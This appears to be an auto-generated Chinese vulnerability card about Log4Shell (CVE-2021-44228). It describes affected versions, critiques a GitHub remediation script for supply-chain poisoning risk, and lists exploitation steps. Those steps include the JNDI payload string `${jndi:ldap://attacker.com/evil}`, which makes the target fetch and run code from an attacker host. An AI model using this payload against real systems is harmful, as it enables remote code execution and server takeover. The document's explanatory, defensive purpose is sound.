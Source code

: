 ## CVE-2021-44228-Apache Log4j2-远程代码执行

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致服务器完全控制

**影响版本:** 2.0-beta9 to 2.15.0 (excluding security releases 2.12.2, 2.12.3, and 2.3.1)

**利用条件:** 目标系统使用存在漏洞的Log4j2版本，且允许消息查找替换。

**POC 可用性:** 是

**投毒风险:** 95%

## 详情

CVE-2021-44228（Log4Shell）是Apache Log4j2中的一个严重漏洞，允许未经身份验证的远程代码执行。攻击者可以构造特殊的日志消息，其中包含JNDI查找，指向恶意LDAP或其他JNDI服务。当Log4j2处理这些日志消息时，它会尝试从攻击者控制的服务器下载并执行任意代码。 

提供的脚本 `log4j_remediation` 试图通过下载并替换Log4j2库文件来进行修复，但是从修复的角度来看,这个脚本存在严重的投毒风险，因为：

1. **URL 的变量名不规范**：`LOG4J_DOWNLOAD_URL` 变量中的 `2.x.y` 存在被攻击者修改的风险，攻击者可以劫持链接，使用恶意的Log4j2 jar 包，造成二次污染。
2. **覆盖现有的 Log4j JAR 文件**:  脚本直接复制下载的新 JAR 文件到应用程序目录，这可能会破坏应用程序的依赖关系，尤其是在不同版本的 Log4j 之间存在不兼容的情况下。
3. **未进行校验**:  脚本没有对下载的压缩包或 JAR 文件进行任何完整性校验（如哈希校验），无法确保下载的文件没有被篡改。
4. **依赖外部源**: 脚本依赖于外部 Apache 官方服务器下载 Log4j，如果该服务器被攻陷，则存在极高的投毒风险。
5. **版本不确定**: 脚本中的版本号 `2.x.y` 是一个占位符，这意味着脚本实际上没有指定要下载的具体 Log4j 版本，可能导致下载到不安全或不兼容的版本。


 **利用方式：** 

1.  攻击者找到任何会记录用户可控输入的Log4j2应用程序。
2.  攻击者在输入中插入恶意的JNDI查找字符串，例如 `${jndi:ldap://attacker.com/evil}`。
3.  当Log4j2记录包含此字符串的日志消息时，它会向`attacker.com`发起LDAP请求。
4.  `attacker.com`的LDAP服务器返回一个包含恶意Java类的响应。
5.  Log4j2加载并执行该恶意Java类，从而导致远程代码执行。

根据漏洞库信息，搜索引擎结果以及提供的漏洞利用代码进行综合分析， 漏洞利用的有效性高，投毒风险极高。

**项目地址:** [OtisSymbos/CVE-2021-44228-Log4Shell-](https://github.com/OtisSymbos/CVE-2021-44228-Log4Shell-)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)